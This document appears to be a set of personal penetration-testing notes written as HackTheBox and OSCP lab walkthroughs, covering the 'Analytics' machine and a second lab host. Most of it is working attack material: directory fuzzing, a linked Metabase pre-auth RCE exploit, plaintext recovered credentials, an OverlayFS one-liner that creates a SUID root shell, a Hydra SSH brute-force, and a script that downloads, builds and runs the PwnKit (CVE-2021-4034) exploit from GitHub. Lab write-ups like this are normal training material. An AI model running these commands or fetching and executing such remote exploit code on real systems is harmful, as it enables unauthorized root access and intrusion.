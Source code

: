 after enumerating the subdomian found a lgin page but didn't worked

# on burpsuite this login page using /api/session endpoint so

![[../../windows box/jab/attachment/Pasted image 20240322141650.png]]


## on further enumerating found a /properties end point

```bash

┌──(dedrknex㉿kali)-[~/oscp/hackthebox/Analytics_10.10.11.233]
└─$ wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt --hc 404   -t 100 "http://data.analytical.htb/api/session/FUZZ" 

 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://data.analytical.htb/api/session/FUZZ
Total requests: 30000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                
=====================================================================

000001411:   200        0 L      3364 W     74322 Ch    "properties"

```


## on visting found a page

![[../../windows box/jab/attachment/Pasted image 20240322141802.png]]


# Found a exploit on github

![[../../windows box/jab/attachment/Pasted image 20240322141833.png]]


https://github.com/m3m0o/metabase-pre-auth-rce-poc

found a shell

![[../../windows box/jab/attachment/Pasted image 20240322141940.png]]


# found cred after revshell
![[../../windows box/jab/attachment/Pasted image 20240322170351.png]]

META_USER=metalytics
META_PASS=An4lytics_ds20223#

## Got ssh
```bash

┌──(dedrknex㉿kali)-[~/oscp/hackthebox/Analytics_10.10.11.233]
└─$ ssh metalytics@10.10.11.233
The authenticity of host '10.10.11.233 (10.10.11.233)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:34: [hashed name]
    ~/.ssh/known_hosts:55: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.233' (ED25519) to the list of known hosts.
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar 22 11:35:10 AM UTC 2024

  System load:              0.357421875
  Usage of /:               93.2% of 7.78GB
  Memory usage:             25%
  Swap usage:               0%
  Processes:                160
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.233
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:477c

  => / is using 93.2% of 7.78GB

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ 


```

# Okay for privesc tried linpeas etc nothing worked tried ... suid didn't help

## so

![[../../windows box/jab/attachment/Pasted image 20240322173225.png]]



``` bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

## used this to get root




```
┌──(dedrknex㉿kali)-[~/oscp/PWK/satpier_192.168.152.148]
└─$ hydra -L usernames.txt -e nsr  -t 4 ssh://192.168.232.148 -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-23 20:00:37
[DATA] max 4 tasks per 1 server, overall 4 tasks, 183 login tries (l:61/p:3), ~46 tries per task
[DATA] attacking ssh://192.168.232.148:22/
[STATUS] 34.00 tries/min, 34 tries in 00:01h, 149 to do in 00:05h, 4 active
[STATUS] 33.50 tries/min, 67 tries in 00:02h, 116 to do in 00:04h, 4 active
[STATUS] 33.33 tries/min, 100 tries in 00:03h, 83 to do in 00:03h, 4 active
[22][ssh] host: 192.168.232.148   login: SHayslett   password: SHayslett
[STATUS] 33.50 tries/min, 134 tries in 00:04h, 49 to do in 00:02h, 4 active
```


got root acces

```
SHayslett@red:/tmp$ vi exploit.sh
SHayslett@red:/tmp$ chmod +x exploit.sh 
SHayslett@red:/tmp$ ./exploit.sh 
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /bin/true GCONV_PATH=./pwnkit.so:.
# id
uid=0(root) gid=0(root) groups=0(root),1005(SHayslett)
# 


```

# exploit


``` bash

#!/usr/bin/env sh

URL='https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/'

for EXPLOIT in "${URL}/cve-2021-4034.c" \
               "${URL}/pwnkit.c" \
               "${URL}/Makefile"
do
    curl -sLO "$EXPLOIT" || wget --no-hsts -q "$EXPLOIT" -O "${EXPLOIT##*/}"
done

make

./cve-2021-4034

```

![[Pasted image 20240414154053.png]]

